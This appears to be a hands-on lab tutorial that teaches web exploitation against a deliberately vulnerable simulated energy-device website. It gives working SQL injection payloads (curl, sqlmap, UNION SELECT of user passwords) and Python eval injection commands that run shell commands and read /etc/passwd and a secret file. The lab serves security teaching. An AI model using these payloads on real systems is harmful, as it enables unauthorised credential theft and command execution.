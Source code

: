 # Web Exploitation

1. On the Kali machine, open the Firefox browser and go to `10.10.0.100` to pull up the DER website.  Click the icon or enter the following into the terminal to start the browser: `firefox`

	![Website](../img/der_sim_website.png)

	You will see some power, voltage, and frequency from the DER device.  There are also some simple tab applications: `Firmware`, `Calculator`, and `Grid Information`. These were added to demonstrate different forms of website vulnerabilities.

## SQL injection

** A Joke to Start **
![Website](../img/xkcd.png)
From: [http://xkcd.com/327/](http://xkcd.com/327/)

1. Click on the `Grid Information` link to bring up `http://10.10.0.100/grid` in the browser.
2. Notice the list of grid codes available for this device.

	![Website](../img/grid_code_web.PNG)

3. Clicking on `Asia` or `Europe` links will show the options for that continent,
e.g., `http://10.10.0.100/grid?continent=Asia`

4. It looks like this URL is using some kind of database to store information. It could be vulnerable to SQL injection attacks depending on how it's parsing the inputs. To help us quickly test different exploits, let's use `curl` to get the website contents:

	`curl http://10.10.0.100/grid?continent=Asia`

5. Websites require inputs to be URL encoded. To save us the trouble of manually converting the data, we can have curl do this for us:

	`curl --get --data-urlencode "continent=Asia" http://10.10.0.100/grid`
	
	The results will be the same as before.

6. Now, let's try to see if we can see if can determine if this is a SQL database by terminating the input string and producing an error.  Typical string terminators are `"`, `'`, and `` ` ``. 

	```curl --get --data-urlencode "continent=\"" http://10.10.0.100/grid```

	```curl --get --data-urlencode "continent='" http://10.10.0.100/grid```

	In the second case, we get an interesting error: `unrecognized token: "''';"`.  Googling this we see this is a error common in SQLite applications. That confirms our suspicion that these queries are tied to a SQL database.

7. There are tools that can help to automate SQL injection attacks.  One included on the Kali machine is `sqlmap`.  We can test it out by running the following:

	`sqlmap -u http://10.10.0.100/grid?continent=Asia -p continent --dump`

	where the `continent` parameter is used for the injection and `--dump` indicates that `sqlmap` should dump the full contents. You can answer the questions with the following: `Y`, `Y`, `N`

	Did we find anything interesting?

	![SQL Injection 1](../img/sqlmap1.PNG)
	![Website](../img/sqlmap2.PNG)

	NOTE: sqlmap will sometimes fail if the queries do not return in time.  If it fails, try a few more times.

8. Note we can also manually exploit this system if we know how to craft the request.  The single quote `'`is used for the end of a string input.  We can use this to end the entry and then add another query as long as we terminate the request with a comment using either a `*/`, C-style comment block, of the SQL comment `--`.

	Try to get the user passwords with the curl command:

	`curl --get --data-urlencode "continent=' UNION SELECT username, password, 1 from USERS --" http://10.10.0.100/grid`

	And enter the following into the browser URL:

	`http://10.10.0.100/grid?continent=' union select username, password, 1 from users --`

	which becomes `http://10.10.0.100/grid?continent=%27%20union%20select%20username,%20password,%201%20from%20users%20/*` when URL encoded.

	![SQL Injection via Browser](../img/sql_injection.PNG)


## Command/Code Injection

1. Go to the solar website at `http://10.10.0.100/calculator`.  In the first field, the form is running python code that includes an `eval` statement.  It can be used as a calculator. For instance, enter the following:

	`5+7`

	`8*5`

	`4**2`

	Did it return the expected results?

2. Python `eval` statements will execute arbitrary code and, therefore, it is a well-known vulnerability.  So instead of entering, an equation, let’s start a subprocess to print the user that is running the website with `whoami`.  You can also print the values of the website’s directory with the `ls` command.

	`__import__("subprocess").getoutput("whoami")`

	`__import__("subprocess").getoutput("ls")`

	![Code Injection via Browser](../img/code_inj_web.PNG)

3. If you look at the output, you can see that there’s a file called `super_secret_info.txt`. Let’s go ahead and see what’s in that file.

	`__import__("subprocess").getoutput("cat super_secret_info.txt")`

	We see the following result:

	`Result: VNC password = superman`

4. Now let’s see if we can dump the users names from the linux machine.

	`__import__("subprocess").getoutput("cat /etc/passwd")`

 	So, we can see there’s a vnc user on the machine.  Maybe we can get it using VNC.

	![Code Injection via Browser](../img/code_inj_web2.PNG)
